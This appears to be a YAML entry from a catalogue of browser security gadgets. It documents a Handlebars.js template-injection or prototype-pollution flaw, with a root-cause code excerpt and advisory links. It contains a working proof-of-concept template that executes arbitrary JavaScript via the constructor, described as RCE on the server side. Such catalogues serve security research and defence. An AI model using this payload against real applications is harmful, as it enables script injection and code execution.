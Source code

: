 ```yaml
      - firefox-browser
      - safari-browser
      - any-tag
      - any-attr
      - unsafe-eval-csp
      - func-call-parameter
    pocs:
      - description: |
          There was a prototype pollution in [Handlebars.js](https://github.com/handlebars-lang/handlebars.js) that allowed to execute JavaScript code.

          *On server-side usage, this is a Remote Code Execution (RCE).*
        code: |
          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/handlebars.js/4.0.13/handlebars.min.js"></script>

          <script nonce="secret">
            // user input
            var s = `
              {{#with "s" as |string|}}
                {{#with "e"}}
                  {{#with split as |conslist|}}
                    {{this.pop}}
                    {{this.push (lookup string.sub "constructor")}}
                    {{this.pop}}
                    {{#with string.split as |codelist|}}
                      {{this.pop}}
                      {{this.push "return alert(document.domain);"}}
                      {{this.pop}}
                      {{#each conslist}}
                        {{#with (string.sub.apply 0 codelist)}}
                          {{this}}
                        {{/with}}
                      {{/each}}
                    {{/with}}
                  {{/with}}
                {{/with}}
              {{/with}}
            `;
            var template = Handlebars.compile(s);
            template({}); 
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/handlebars-lang/handlebars.js/blob/8d22e6f501dc0720fe0610bb4dab60cae18e7d20/lib/handlebars/compiler/javascript-compiler.js#L15">https://github.com/handlebars-lang/handlebars.js/blob/8d22e6f501dc0720fe0610bb4dab60cae18e7d20/lib/handlebars/compiler/javascript-compiler.js#L15</a>

      ```javascript
      nameLookup: function(parent, name/* , type*/) {
        if (JavaScriptCompiler.isValidJavaScriptVariableName(name)) {
          return [parent, '.', name];
        } else {
          return [parent, '[', JSON.stringify(name), ']'];
        }
      }
      ```
    links:
      - https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html
      - https://github.com/advisories/GHSA-q42p-pg8m-cqh6
  ≤3.0.7&≤4.2.2:
```
